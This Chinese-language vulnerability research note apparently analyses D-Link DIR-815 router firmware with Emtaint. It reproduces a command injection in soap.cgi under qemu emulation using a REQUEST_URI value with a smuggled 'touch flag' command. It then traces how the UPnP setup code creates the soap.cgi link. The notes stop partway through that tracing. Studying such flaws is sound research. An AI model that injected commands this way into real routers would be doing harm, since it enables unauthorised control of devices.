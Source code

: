 使用Emtaint分析dir815路由器固件结果

为了调试，我们在/htdocs/web/创建cgibin的软连接soap.cgi，并创建var/run目录。
```
ln -s /htdocs/cgibin soap.cgi
```

触发命令注入的命令如下，命令会创建一个flag文件。

```
sudo chroot . ./qemu-mipsel-static -E CONTENT_TYPE="text/xml" -E HTTP_SOAPACTION="a#a" -E REQUEST_URI="?service=aaa;touch flag;" -E REQUEST_METHOD="POST" -g 1234 /htdocs/web/soap.cgi
```

但原固件解包中并没有找到soap.cgi文件，因此该命令注入是否有机会通过web接口触发？

首先，soap.cgi是如何创建的？我通过grep来从文件系统中寻找有关soap.cgi的位置。

![](images/Pasted%20image%2020231124152759.png)

发现在/etc/services/HTTP/httpsvcs.php:133文件中执行了命令，创建了soap.cgi软连接。该文件中包含很多函数，执行该命令的函数为upnpsetup()。

```sh
function upnpsetup($name)
{
	...
	$vdir = "/var/htdocs/upnp/".$name;
	...
	if ($mkln > 0)
	{
		startcmd("ln -s /htdocs/cgibin ".$vdir."/soap.cgi");
		startcmd("ln -s /htdocs/cgibin ".$vdir."/gena.cgi");
	}
```

通过看FirmAE仿真的shell，相应目录下确实存在soap.cgi。

![](images/Pasted%20image%2020231124155348.png)

继续搜索调用upnpsetup()的地方。

![](images/Pasted%20image%2020231124153919.png)

